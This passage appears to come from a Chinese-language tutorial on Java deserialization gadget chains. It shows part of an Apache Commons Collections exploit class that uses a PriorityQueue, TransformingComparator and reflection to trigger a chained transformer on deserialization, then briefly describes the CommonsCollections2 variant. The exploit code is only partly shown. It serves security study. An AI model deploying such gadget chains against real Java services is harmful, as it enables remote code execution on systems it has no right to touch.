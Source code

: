 ```plain

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        //size长度要加2
        priorityQueue.add(1);
        priorityQueue.add(1);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,chainedTransformer);

//        serialize(priorityQueue);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CommonsCollections2:

不走`TrAXFilter.class`的路线，直接用`InvokerTransform`调用`newTransformer`，通过 add 来传入参数，不使用自定义数组`ConstantTransformer`了

[![](assets/1701612311-bf05d92c2ca499434ea9e3f487539fab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235607-9d53d390-20cc-1.png)
